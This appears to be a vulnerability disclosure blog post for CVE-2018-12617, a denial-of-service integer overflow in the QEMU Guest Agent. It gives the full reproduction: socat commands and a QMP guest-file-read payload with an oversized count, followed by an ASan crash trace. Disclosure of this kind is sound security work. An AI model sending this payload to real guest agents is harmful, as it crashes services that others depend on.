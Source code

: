 ```yaml
---
layout: post
title: "[CVE-2018-12617] QEMU Guest Agent Denial of Service"
date: 2018-06-07
categories:
    - blog
tags:
    - denial of service
keywords: "qemu, qemu-ga, dos, denial of service"
---
```


QEMU Guest Agent 2.12.50 and earlier has an integer overflow causing a g_malloc0() call to trigger a segfault() call when trying to allocate a large memory chunk. The vulnerability can be exploited by sending a specific QMP command to the agent via the listening socket.

1st, execute the guest-agent using the following command:

```
$ qemu-ga -m unix-listen -p /tmp/qga.sock -t /tmp
```

2nd, on the other console, connect to the UNIX socket using socat:

```
$ socat unix-connect:/tmp/qga.sock -
```

3rd, enter the following QMP command:

```
{"execute":"guest-file-open", "arguments":{"path":"/tmp/poc","mode":"w+”}}
{"return": 1000}
{"execute":"guest-file-read", "arguments":{"handle":1000,"count":4294967295}}
```

The guest-file-read must be specified with the correct handle value (file descriptor). Different files will have different handle value.

```
#0 0x5598eed0a1af in calloc /home/user/llvm/projects/compiler-rt/lib/asan/asan_malloc_linux.cc:107
#1 0x7f2ce5d7d770 in g_malloc0 (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4f770)
#2 0x5598eed84996 in qmp_marshal_guest_file_read /home/user/qemu/qga/qapi-generated/qga-qapi-commands.c:425:14
#3 0x5598eeda4fcf in do_qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:119:5
#4 0x5598eeda4fcf in qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:168
#5 0x5598eed59bff in process_command /home/user/qemu/qga/main.c:589:11
#6 0x5598eed59bff in process_event /home/user/qemu/qga/main.c:626
#7 0x5598eedb5f13 in json_message_process_token /home/user/qemu/qobject/json-streamer.c:105:5
#8 0x5598eee25d9b in json_lexer_feed_char /home/user/qemu/qobject/json-lexer.c:323:13
#9 0x5598eee25333 in json_lexer_feed /home/user/qemu/qobject/json-lexer.c:373:15
#10 0x5598eed5a95e in channel_event_cb /home/user/qemu/qga/main.c:659:9
#11 0x5598eed710c1 in ga_channel_client_event /home/user/qemu/qga/channel-posix.c:92:23
#12 0x7f2ce5d78049 in g_main_context_dispatch (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4a049)
```
---
References:
1. https://lists.gnu.org/archive/html/qemu-devel/2018-06/msg03385.html
